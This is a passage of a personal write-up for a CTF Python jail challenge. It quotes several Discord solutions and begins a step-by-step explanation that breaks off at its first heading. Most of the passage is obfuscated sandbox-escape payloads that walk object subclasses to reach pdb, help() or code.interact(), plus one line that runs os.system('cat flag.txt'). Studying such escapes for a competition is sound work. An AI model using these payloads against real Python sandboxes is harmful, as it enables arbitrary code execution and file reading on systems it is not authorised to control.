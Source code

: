 This is a python jail challenge. I did not solve it in the competition, but learnt how to solve it after the competition ends. Here are the solutions on the Discord:

@hibwyli:

```python
[t:=True+True+True+True+True+True+True+True+True+True,f:=t*t+t+t+t+t+t,e:=True+True+True+True+True,().__class__.__base__.__subclasses__()[f+t-True]()()] 
pdb
sandbox
[s:=True+True+True,t:=True+True+True+True+True+True+True+True+True+True,f:=t*t+t+t+t+t+t,e:=True+True+True+True+True,a:=().__class__.__base__.__subclasses__()[f+t-True].__doc__,().__class__.__base__.__subclasses__()[f+t-True-True].__init__.__globals__[a[t+t+t+e]+a[t+t+t+t+t+e+s]+a[t+t+t+e]].modules[a[t+t+s]+a[t+t+t+t+t+e]+a[t+True]].set_trace()]
"".__class__.__base__.__subclasses__()[141].__init__.__globals__["__builtins__"]["__import__"]("os").system("cat flag.txt")
```

@Phisher:

```python
[m.help()for B in[().__class__.__base__]for L in[[].__class__.__name__]for x in B.__subclasses__()if x.__init__.__class__.__name__[False]==().__format__.__name__[True+True]for G in[x.__init__.__globals__]if L[True+True]+B.__class__.__name__[True]+L[True+True]in G for S in[G[L[True+True]+B.__class__.__name__[True]+L[True+True]]]for m in S.modules.values()if m.__name__==[].__class__.__module__][False]
pdb
sandbox
[S.modules[B.__class__.__name__[True+True]+G.__class__.__name__[False]+B.__name__[True]].set_trace() for B in[().__class__.__base__] for L in[[].__class__.__name__] for x in B.__subclasses__() if x.__init__.__class__.__name__[False]==().__format__.__name__[True+True] for G in[x.__init__.__globals__] if L[True+True]+B.__class__.__name__[True]+L[True+True] in G for S in[ G[L[True+True]+B.__class__.__name__[True]+L[True+True]] ]][False]
# enters pdb prompt
```

@(ztz:

```python
[y:=().__doc__,ww:=True,z:=ww+ww,t:=z+z+z+z+z+z+z+z+z+ww,zt:=t+t+t+t+t+t+t+t+z+z+z+ww,a:=().__class__.__base__.__subclasses__,w:=a()[zt]()(),a()[ww-ww-ww-ww-ww].__subclasses__()[False]().interact()]
# enters help prompt

https://github.com/mmm-team/public-writeups/blob/d592f318b5daa813b89d4b1bae323862fda911de/seccon2024/jail_1linepyjail/README.md?plain=1#L15
```

This is my first time to learn python jail escape. Here is the detailed attack sequence learned from [1linepyjail - Jail Problem writeup](https://github.com/mmm-team/public-writeups/blob/d592f318b5daa813b89d4b1bae323862fda911de/seccon2024/jail_1linepyjail/README.md?plain=1#L15):

1. enter the help() function
2. load new module, e.g. code or pdb, and execute function from the newly module to achieve RCE

## Step 1. enter the help() function
